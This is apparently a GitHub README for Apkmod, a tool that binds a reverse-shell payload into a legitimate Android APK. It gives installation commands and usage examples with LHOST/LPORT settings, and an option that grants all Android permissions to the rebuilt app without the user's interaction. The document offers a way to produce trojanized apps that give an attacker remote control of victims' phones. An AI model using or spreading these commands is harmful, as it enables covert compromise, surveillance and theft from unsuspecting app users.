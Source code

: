 # Apkmod v1.9
### Author : Lokesh @Hax4us

## _Steps For Installation_
1. First goto home directory `$ cd $HOME`
2. Get the setup script `$ wget https://raw.githubusercontent.com/Hax4us/Apkmod/master/setup.sh`
3. Execute the script `$ sh setup.sh`
4. Now you can execute command `$ apkmod`

## Usage :



1. For binding `$ apkmod -b /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444`. It will bind payload with __originalApp.apk__ and saves final binded app to __binded.apk__.
2. Now you can use a optional option `-a` to use __aapt2__ for __binding__ and __recompiling__. Why aapt2 ? Because some apps can't recompile with __aapt__ but __aapt2__ can do it. But I can't drop __aapt__ support because some apps can't recompile with __aapt2__ so first recompile or bind without __aapt2__ ( `-a` ) then if you failed then try with __aapt2__. For example `$ apkmod -a -b /path/to/originalApp.apk -o /path/to/binded.apk LHOST=127.0.0.1 LPORT=4444`.
3. Use `-V` to enable verbose output
4. If only editing Java (smali) then this is the recommended action for faster decompile & rebuild `--no-res`
5. If you are only editing the resources. This is the recommended action for faster disassemble & assemble `--no-smali`
6. use `--frame-path` to specify framework directory like `--frame-path=/path/to/dir` 
7. Use `--enable-perm` to enable all android permissions in binded or non binded payloads without user interaction. For example :- `$ apkmod --enable-perm=/path/to/binded.apk -o mybinded.apk`







